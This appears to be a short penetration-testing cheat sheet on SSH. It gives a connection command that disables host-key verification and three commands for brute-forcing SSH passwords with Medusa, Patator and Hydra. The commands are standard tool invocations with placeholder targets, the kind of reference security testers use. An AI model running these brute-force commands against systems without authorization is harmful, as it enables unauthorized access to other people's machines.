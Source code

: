 # SSH

% remote shell (secure)

#plateform/linux #target/local #cat/MISC/RECON #protocol/ssh #port/22

## Remote SSH access

ssh with out adding the remote host to KnownHosts file also, ignore if host key and host name don't match

```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" <remote-username>@<ip>
```

## SSH Password Brute Force (Medusa)

uses medusa to brute force passwords for a specified user

```
medusa -h <ip> -M ssh -u <user-name> -P <passwords-file>
```

## SSH Password Brute Force (Patator)

uses patator to brute force passwords for a specified user

```
patator ssh_login host=<ip> user=<user-name> password=FILE0 0=<password-file> -x ignore:mesg='Authentication failed.'
```

## SSH Password Brute Force (Hydra)

uses hydra to brute force ssh passwords for a specified user

```
hydra -l <user-name> -P <password-list> -t <n-threads> ssh://<ip> -o ./ssh-creds.hydra
```
